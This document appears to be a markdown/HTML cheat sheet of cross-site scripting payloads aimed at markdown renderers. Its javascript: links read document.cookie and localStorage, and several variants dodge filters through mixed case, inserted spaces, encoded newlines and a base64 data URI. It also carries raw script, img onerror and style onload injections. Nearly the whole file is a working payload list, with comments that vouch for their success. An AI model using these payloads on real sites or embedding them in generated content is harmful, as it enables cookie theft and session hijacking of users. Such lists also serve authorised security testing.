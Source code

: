 <!-- markdow link to XSS, this usually always work but it requires interaction -->
[a](javascript:prompt(document.cookie))

<!-- Other links attacks with some bypasses -->
[Basic](javascript:alert('Basic'))
[Local Storage](javascript:alert(JSON.stringify(localStorage)))
[CaseInsensitive](JaVaScRiPt:alert('CaseInsensitive'))
[URL](javascript://www.google.com%0Aalert('URL'))
[In Quotes]('javascript:alert("InQuotes")')
[a](j a v a s c r i p t:prompt(document.cookie))
[a](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)
[a](javascript:window.onerror=alert;throw%201)


<style onload="alert(0)">
<!-- XSS with regular tags -->
<script>alert(1)</script>
<img src=x onerror=alert(1) />

